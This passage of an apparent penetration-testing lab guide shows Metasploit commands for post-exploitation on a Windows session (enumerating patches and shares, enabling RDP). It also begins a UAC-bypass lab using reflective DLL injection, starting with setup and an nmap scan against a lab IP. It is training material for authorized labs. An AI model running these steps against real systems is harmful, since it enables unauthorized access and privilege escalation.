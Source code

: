 ![Metasploit - post/windows/gather/enum_patches](.gitbook/assets/image-20230419194323490.png)

- Enumerate any shares

```bash
search enum_shares
use post/windows/gather/enum_shares
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_shares](.gitbook/assets/image-20230419194507578.png)

- Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419194637948.png)

------

## Lab 2 - UAC Bypass

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> - Target IP: `10.2.18.116`
> - Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) module
>   - *This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.*

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.18.116
setg RHOST 10.2.18.116
workspace -a UAC_Bypass
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.18.116
```
